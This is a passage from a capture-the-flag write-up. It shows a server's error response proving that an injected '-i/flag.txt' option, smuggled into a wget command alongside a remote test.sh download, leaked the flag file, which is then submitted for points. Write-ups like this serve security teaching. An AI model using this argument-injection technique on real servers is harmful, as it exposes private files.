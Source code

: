 It worked, the flag was used as a URL and appeared 3 times in the response.

```http
HTTP/1.1 500 Internal Server Error
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 18 May 2024 14:16:32 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 1515
Connection: keep-alive

Error: Command failed: /usr/bin/wget --no-cookies --timeout=120 --tries=3 --no-check-certificate -r -P /var/www/nginx/static/tmp --no-proxy file:/// http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/test.sh -i/flag.txt
file:///: Unsupported scheme ‘file’.
--2024-05-18 14:16:32-- http://[9000:6666:6666:6666:216:3eff:feb1:8d80]:8080/test.sh
Connecting to [9000:6666:6666:6666:216:3eff:feb1:8d80]:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 75 [text/x-sh]
Saving to: ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/test.sh’

0K 100% 5.11M=0s

2024-05-18 14:16:32 (5.11 MB/s) - ‘/var/www/nginx/static/tmp/9000:6666:6666:6666:216:3eff:feb1:8d80:8080/test.sh’ saved [75/75]

--2024-05-18 14:16:32-- http://flag-57199b590846fa71df8dfa468a5d9e5d/
Resolving flag-57199b590846fa71df8dfa468a5d9e5d (flag-57199b590846fa71df8dfa468a5d9e5d)... failed: Name or service not known.
wget: unable to resolve host address ‘flag-57199b590846fa71df8dfa468a5d9e5d’
FINISHED --2024-05-18 14:16:32--
Total wall clock time: 0.01s
Downloaded: 1 files, 75 in 0s (5.11 MB/s)

at genericNodeError (node:internal/errors:984:15)
at wrappedFn (node:internal/errors:538:14)
at ChildProcess.exithandler (node:child_process:422:12)
at ChildProcess.emit (node:events:519:28)
at maybeClose (node:internal/child_process:1105:16)
at ChildProcess._handle.onexit (node:internal/child_process:305:5)
```

I submitted it and got 3 points.

```bash
$ askgod submit flag-57199b590846fa71df8dfa468a5d9e5d
Congratulations, you score your team 3 points!
Message: Congratulations! Language planning seems to have been fully restored. (1/1)
```